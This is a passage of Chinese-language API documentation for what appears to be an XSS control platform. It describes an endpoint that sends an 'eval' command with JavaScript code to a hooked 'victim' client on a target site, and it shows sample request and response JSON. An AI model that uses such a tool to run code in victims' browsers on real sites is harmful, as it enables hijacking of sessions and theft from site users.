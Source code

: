 ```json
  },
  "timestamp": "2025-01-20T10:35:00Z"
}
```

### 2. 向指定客户端发送命令
```http
POST /api/clients/{client_id}/commands?project={project_id}
Content-Type: application/json
```

**功能:** 向指定项目内的指定客户端发送命令

**路径参数:**
- `client_id` (必需, string): 目标客户端ID

**查询参数:**
- `project` (必需, string): 项目JID

**请求体:**
```json
{
  "command": "eval",
  "args": {
    "code": "alert('XSS Test')"
  }
}
```

**响应示例:**
```json
{
  "status": "success",
  "message": "命令执行完成，收到 1 个结果", 
  "data": {
    "command": "eval",
    "project_id": "PROJ123456",
    "target_id": "victim_abc123",
    "args": {
      "code": "alert('XSS Test')"
    },
    "results": [
      {
        "client_id": "victim_abc123",
        "command": "eval",
        "result": "undefined",
        "url": "https://target-site.com",
        "timestamp": 1640995200
      }
    ],
    "count": 1
  },
  "timestamp": "2025-01-20T10:35:00Z"
}
```
